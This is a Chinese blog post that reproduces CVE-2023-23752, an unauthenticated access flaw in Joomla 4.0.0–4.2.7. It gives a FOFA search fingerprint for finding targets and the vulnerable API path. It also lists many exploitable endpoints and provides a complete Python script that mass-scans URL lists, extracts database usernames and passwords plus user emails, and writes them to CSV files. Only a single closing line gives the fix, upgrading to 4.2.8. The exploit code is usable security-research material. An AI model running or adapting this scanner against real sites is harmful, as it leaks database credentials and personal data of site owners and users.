

# Joomla 未授权访问漏洞|CVE-2023-23752 复现及修复 - 那酒不要留 - 博客园

> 原文：[`www.cnblogs.com/xiaoyunxiaogang/p/17219281.html`](https://www.cnblogs.com/xiaoyunxiaogang/p/17219281.html)


00 前言

这漏洞公开有阵子了好像，今天才复现了下  

Jooml 在海外使用较多，是一套使用 PHP 和 MySQL 开发的开源、跨平台的内容管理系统(CMS)。
Joomla 4.0.0 至 4.2.7 版本中的 ApiRouter.php#parseApiRoute 在处理用户的 Get 请求时未对请求参数有效过滤，导致攻击者可向 Joomla 服务端点发送包含 public=true 参数的请求(如：/api/index.php/v1/config/application?public=true&key=value) 进行未授权访问


01 FOFA 指纹

```
product="Joomla"
```


02 影响版本

```
4.0.0 <= Joomla <= 4.2.7
```


03 漏洞详情

在 Joomla 受影响的版本中由于对 Web 服务端点的访问限制不当，远程攻击者可以绕过安全限制获得 Web 应用程序敏感信息。

未授权路径在：

```
/api/index.php/v1/config/application?public=true
```

我们可以直接看到数据库的配置信息。



其他可利用接口

```
v1/banners
v1/banners/:id
v1/banners
v1/banners/:id
v1/banners/:id
v1/banners/clients
v1/banners/clients/:id
v1/banners/clients
v1/banners/clients/:id
v1/banners/clients/:id
v1/banners/categories
v1/banners/categories/:id
v1/banners/categories
v1/banners/categories/:id
v1/banners/categories/:id
v1/banners/:id/contenthistory
v1/banners/:id/contenthistory/keep
v1/banners/:id/contenthistory
v1/config/application
v1/config/application
v1/config/:component_name
v1/config/:component_name
v1/contacts/form/:id
v1/contacts
v1/contacts/:id
v1/contacts
v1/contacts/:id
v1/contacts/:id
v1/contacts/categories
v1/contacts/categories/:id
v1/contacts/categories
v1/contacts/categories/:id
v1/contacts/categories/:id
v1/fields/contacts/contact
v1/fields/contacts/contact/:id
v1/fields/contacts/contact
v1/fields/contacts/contact/:id
v1/fields/contacts/contact/:id
v1/fields/contacts/mail
v1/fields/contacts/mail/:id
v1/fields/contacts/mail
v1/fields/contacts/mail/:id
v1/fields/contacts/mail/:id
v1/fields/contacts/categories
v1/fields/contacts/categories/:id
v1/fields/contacts/categories
v1/fields/contacts/categories/:id
v1/fields/contacts/categories/:id
v1/fields/groups/contacts/contact
v1/fields/groups/contacts/contact/:id
v1/fields/groups/contacts/contact
v1/fields/groups/contacts/contact/:id
v1/fields/groups/contacts/contact/:id
v1/fields/groups/contacts/mail
v1/fields/groups/contacts/mail/:id
v1/fields/groups/contacts/mail
v1/fields/groups/contacts/mail/:id
v1/fields/groups/contacts/mail/:id
v1/fields/groups/contacts/categories
v1/fields/groups/contacts/categories/:id
v1/fields/groups/contacts/categories
v1/fields/groups/contacts/categories/:id
v1/fields/groups/contacts/categories/:id
v1/contacts/:id/contenthistory
v1/contacts/:id/contenthistory/keep
v1/contacts/:id/contenthistory
v1/content/articles
v1/content/articles/:id
v1/content/articles
v1/content/articles/:id
v1/content/articles/:id
v1/content/categories
v1/content/categories/:id
v1/content/categories
v1/content/categories/:id
v1/content/categories/:id
v1/fields/content/articles
v1/fields/content/articles/:id
v1/fields/content/articles
v1/fields/content/articles/:id
v1/fields/content/articles/:id
v1/fields/content/categories
v1/fields/content/categories/:id
v1/fields/content/categories
v1/fields/content/categories/:id
v1/fields/content/categories/:id
v1/fields/groups/content/articles
v1/fields/groups/content/articles/:id
v1/fields/groups/content/articles
v1/fields/groups/content/articles/:id
v1/fields/groups/content/articles/:id
v1/fields/groups/content/categories
v1/fields/groups/content/categories/:id
v1/fields/groups/content/categories
v1/fields/groups/content/categories/:id
v1/fields/groups/content/categories/:id
v1/content/articles/:id/contenthistory
v1/content/articles/:id/contenthistory/keep
v1/content/articles/:id/contenthistory
v1/extensions
v1/languages/content
v1/languages/content/:id
v1/languages/content
v1/languages/content/:id
v1/languages/content/:id
v1/languages/overrides/search
v1/languages/overrides/search/cache/refresh
v1/languages/overrides/site/zh-CN
v1/languages/overrides/site/zh-CN/:id
v1/languages/overrides/site/zh-CN
v1/languages/overrides/site/zh-CN/:id
v1/languages/overrides/site/zh-CN/:id
v1/languages/overrides/administrator/zh-CN
v1/languages/overrides/administrator/zh-CN/:id
v1/languages/overrides/administrator/zh-CN
v1/languages/overrides/administrator/zh-CN/:id
v1/languages/overrides/administrator/zh-CN/:id
v1/languages/overrides/site/en-GB
v1/languages/overrides/site/en-GB/:id
v1/languages/overrides/site/en-GB
v1/languages/overrides/site/en-GB/:id
v1/languages/overrides/site/en-GB/:id
v1/languages/overrides/administrator/en-GB
v1/languages/overrides/administrator/en-GB/:id
v1/languages/overrides/administrator/en-GB
v1/languages/overrides/administrator/en-GB/:id
v1/languages/overrides/administrator/en-GB/:id
v1/languages
v1/languages
v1/media/adapters
v1/media/adapters/:id
v1/media/files
v1/media/files/:path/
v1/media/files/:path
v1/media/files
v1/media/files/:path
v1/media/files/:path
v1/menus/site
v1/menus/site/:id
v1/menus/site
v1/menus/site/:id
v1/menus/site/:id
v1/menus/administrator
v1/menus/administrator/:id
v1/menus/administrator
v1/menus/administrator/:id
v1/menus/administrator/:id
v1/menus/site/items
v1/menus/site/items/:id
v1/menus/site/items
v1/menus/site/items/:id
v1/menus/site/items/:id
v1/menus/administrator/items
v1/menus/administrator/items/:id
v1/menus/administrator/items
v1/menus/administrator/items/:id
v1/menus/administrator/items/:id
v1/menus/site/items/types
v1/menus/administrator/items/types
v1/messages
v1/messages/:id
v1/messages
v1/messages/:id
v1/messages/:id
v1/modules/types/site
v1/modules/types/administrator
v1/modules/site
v1/modules/site/:id
v1/modules/site
v1/modules/site/:id
v1/modules/site/:id
v1/modules/administrator
v1/modules/administrator/:id
v1/modules/administrator
v1/modules/administrator/:id
v1/modules/administrator/:id
v1/newsfeeds/feeds
v1/newsfeeds/feeds/:id
v1/newsfeeds/feeds
v1/newsfeeds/feeds/:id
v1/newsfeeds/feeds/:id
v1/newsfeeds/categories
v1/newsfeeds/categories/:id
v1/newsfeeds/categories
v1/newsfeeds/categories/:id
v1/newsfeeds/categories/:id
v1/plugins
v1/plugins/:id
v1/plugins/:id
v1/privacy/requests
v1/privacy/requests/:id
v1/privacy/requests/export/:id
v1/privacy/requests
v1/privacy/consents
v1/privacy/consents/:id
v1/privacy/consents/:id
v1/redirects
v1/redirects/:id
v1/redirects
v1/redirects/:id
v1/redirects/:id
v1/tags
v1/tags/:id
v1/tags
v1/tags/:id
v1/tags/:id
v1/templates/styles/site
v1/templates/styles/site/:id
v1/templates/styles/site
v1/templates/styles/site/:id
v1/templates/styles/site/:id
v1/templates/styles/administrator
v1/templates/styles/administrator/:id
v1/templates/styles/administrator
v1/templates/styles/administrator/:id
v1/templates/styles/administrator/:id
v1/users
v1/users/:id
v1/users
v1/users/:id
v1/users/:id
v1/fields/users
v1/fields/users/:id
v1/fields/users
v1/fields/users/:id
v1/fields/users/:id
v1/fields/groups/users
v1/fields/groups/users/:id
v1/fields/groups/users
v1/fields/groups/users/:id
v1/fields/groups/users/:id
v1/users/groups
v1/users/groups/:id
v1/users/groups
v1/users/groups/:id
v1/users/groups/:id
v1/users/levels
v1/users/levels/:id
v1/users/levels
v1/users/levels/:id
v1/users/levels/:id
```


04 验证脚本

脚本如下：

```
import requests
import argparse
import csv
import json

timeout = 10

output = ""
proxy = {}
notColor = False

def inGreen(s):
    return "\033[0;32m{}\033[0m".format(s)

def inYellow(s):
    return "\033[0;33m{}\033[0m".format(s)

def readFile(filepath):
    file = open(filepath, encoding='utf8')
    return file.readlines()

def writeFile(filepath, data):
    file = open(filepath, 'a', encoding='utf8')
    filecsv = csv.writer(file)
    filecsv.writerow(data)

def reqDatabase(url):
    if url.rindex("/") == len(url) - 1:
        url = "{}api/index.php/v1/config/application?public=true".format(url)
    else:
        url = "{}/api/index.php/v1/config/application?public=true".format(url)

    payload = {}
    headers = {
        'Upgrade-Insecure-Requests': '1',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.114 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
        'Accept-Encoding': 'gzip, deflate',
        'Accept-Language': 'zh-CN,zh;q=0.9',
        'Connection': 'close'
    }

    response = requests.request("GET", url, headers=headers, data=payload, verify=False, proxies=proxy, timeout=timeout)

    # print(response.text)
    if "links" in response.text and "\"password\":" in response.text:
        try:
            rejson = json.loads(response.text)
            user = ""
            password = ""
            for dataone in rejson['data']:
                # print(dataone['attributes'])
                if "user" in dataone['attributes']:
                    user = dataone['attributes']['user']
                if "password" in dataone['attributes']:
                    password = dataone['attributes']['password']
            if user != "" or password != "":
                printBody = "[+] [Database]   {} --> {} / {}".format(url, user, password)
                if notColor:
                    print(printBody)
                else:
                    print(inYellow(printBody))
                if output.strip() != "":
                    writeFile(output + "_databaseUserAndPassword.csv", [url, user, password, response.text])
            return url, response.text
        except:
            pass

def reqUserAndEmail(url):
    if url.rindex("/") == len(url) - 1:
        url = "{}api/index.php/v1/users?public=true".format(url)
    else:
        url = "{}/api/index.php/v1/users?public=true".format(url)

    payload = {}
    headers = {
        'Upgrade-Insecure-Requests': '1',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.114 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
        'Accept-Encoding': 'gzip, deflate',
        'Accept-Language': 'zh-CN,zh;q=0.9',
        'Connection': 'close'
    }

    response = requests.request("GET", url, headers=headers, data=payload, verify=False, proxies=proxy, timeout=timeout)

    if "username" in response.text and "email" in response.text:
        try:
            rejson = json.loads(response.text)
            for dataone in rejson['data']:
                username = ""
                email = ""
                # print(dataone['attributes'])
                if "username" in dataone['attributes']:
                    username = dataone['attributes']['username']
                if "email" in dataone['attributes']:
                    email = dataone['attributes']['email']
                if username != "" or email != "":
                    printBody = "[+] [User&email] {} --> {} / {}".format(url, username, email)
                    if notColor:
                        print(printBody)
                    else:
                        print(inGreen(printBody))
                    if output.strip() != "":
                        writeFile(output + "_usernameAndEmail.csv", [url, username, email, response.text])
            return url, response.text
        except:
            pass

def reqs(listfileName):
    urls = readFile(listfileName)
    for url in urls:
        url = url.strip()
        if url == "":
            continue
        reqDatabase(url)
        reqUserAndEmail(url)

def main():
    parser = argparse.ArgumentParser()
    parser.add_argument('-u', '--url', type=str, default="", help="测试目标的 URL")
    parser.add_argument('-l', '--listfile', type=str, default="", help="测试目标的地址文件")
    parser.add_argument('-o', '--output', type=str, default="", help="输出文件的位置")
    parser.add_argument('-p', '--proxy', type=str, default="", help="代理，如：http://localhost:1080")
    parser.add_argument('-nc', '--notColor', type=bool, default=False, help="禁止带颜色的输出，如：-nc true")

    opt = parser.parse_args()
    args = vars(opt)
    url = args['url']
    urlFileName = args['listfile']
    global output, proxy, notColor
    output = args['output']
    proxy['http'] = args['proxy']
    proxy['https'] = args['proxy']
    notColor = args['notColor']

    if url != "":
        reqDatabase(url)
    if urlFileName != "":
        reqs(urlFileName)

if __name__ == '__main__':
    main()
```

缺依赖的话自行导入即可使用，使用命令：

```
python main.py  -u  http://127.0.0.1:8087/
```


05 修复建议

```
目前该漏洞已经修复，受影响用户可及时升级到 Joomla! CMS 版本 4.2.8。
```

喜欢就点个关注一起进步吧

​